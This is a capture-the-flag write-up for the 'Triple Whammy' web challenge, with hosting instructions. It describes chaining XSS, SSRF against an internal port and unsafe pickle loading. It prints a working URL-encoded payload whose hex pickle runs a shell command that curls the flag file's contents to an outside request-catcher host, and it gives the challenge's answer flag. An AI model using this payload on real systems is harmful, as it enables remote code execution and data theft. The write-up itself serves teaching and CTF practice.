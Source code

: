 # Triple Whammy
Description:
```markdown
Server - https://triple-whammy.chal.cyberjousting.com/

Admin bot - https://triple-whammy-admin.chal.cyberjousting.com/

[triple-whammy.zip]
```

## Writeup
You will want to exploit the XSS on the main page to trick the admin bot into brute forcing the internal port through SSRF to exploit a pickle unloading vulnerability to exfiltrate the flag. Here's an example of the payload (assuming the port is 5902):

`?name=<script>fetch%28%27%2Fquery%27%2C%20%7Bmethod%3A%20%22POST%22%2C%20headers%3A%20%7B%22Content%2DType%22%3A%22application%2Fjson%22%7D%2C%20body%3AJSON%2Estringify%28%7B%22url%22%3A%20%22http://127.0.0.1:5902/pickle?pickle=80049559000000000000008c05706f736978948c0673797374656d9493948c3e6375726c2068747470733a2f2f6c65676f2e72657175657374636174636865722e636f6d2f666c61673f2428636174202f6374662f666c61672e7478742994859452942e%22%7D%29%7D%29</script>`

**Flag** - `byuctf{you_got_a_turkey!!!}`

## Hosting
This challenge should be a Docker container that runs the Flask server `server.py` on port 40003, and the admin bot portal `admin_bot.js` on port 40004. All the proper files are included in here. The command to build and run the docker container is (when located inside of this directory):

```bash
docker compose up -d
```

To stop the challenge:
```bash
docker compose down
```